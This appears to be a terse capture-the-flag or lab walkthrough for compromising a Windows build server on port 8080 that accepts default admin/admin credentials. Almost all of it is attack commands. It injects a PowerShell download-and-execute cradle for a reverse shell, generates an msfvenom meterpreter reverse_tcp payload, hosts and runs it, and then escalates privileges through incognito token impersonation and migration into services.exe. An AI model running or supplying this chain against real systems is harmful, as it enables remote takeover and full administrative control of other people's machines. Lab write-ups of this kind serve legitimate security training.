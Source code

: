 
nmap 10.10.19.52 -Pn -sV

*** To Browser

10.10.19.52:8080

UID: admin

Password: admin

** Build new project

** Find any executable input

powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.189.41:9999/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.9.189.41 -Port 8000

Save it, but don't run right now.

*** Create a server to host the payload(Invoke-PowerShellTcp.ps1)

python3 -m http.server 9999

*** Create a Listener with netcat

nc -lnvp 8000

***After setting up server and listener, build the project.

** It will capture and download the payload from server.

** Then we get a connention to netcat listener.

  ----------  --------------  --------------  
  
*** To make easy privilege escalation, we need to use Metasploit

** Creating meterpreter payload

msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=10.9.189.41 LPORT=2222 -f exe -o shell.exe

** Hosting meterpreter payload to server

python3 -m http.server 1234

** Open listener to Metasploit Multi Handler

msfconsole 

use exploit/multi/handler 

set PAYLOAD windows/meterpreter/reverse_tcp 

set LHOST 10.9.189.41 

set LPORT 2222

run

*** Now call the Powershell download script to run the meterpreter payload.

** Use the connected netcat listener.

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.189.41:1234/shell.exe','shell.exe')"

** In server (port 1234), we get a 200 response. So it's downloaded.

** To execute the payload to netcat

Start-Process "shell.exe"

** We got a meterpreter session

** meterpreter >
-----------------------------------------------------

whoami /priv

** Let's use the incognito module that will allow us to exploit this vulnerability. 

use incognito 

** To check which tokens are available

list_tokens -g

** BUILTIN\Administrators token is available


** To impersonate the Administrators' token

impersonate_token "BUILTIN\Administrators" 

** Ensure that you migrate to a process with the correct permissions

** The safest process to pick is the services.exe process.

ps

** Find the PID of the services.exe process.

** Migrate to this process

migrate PID-OF-PROCESS



  
  
  
  
  

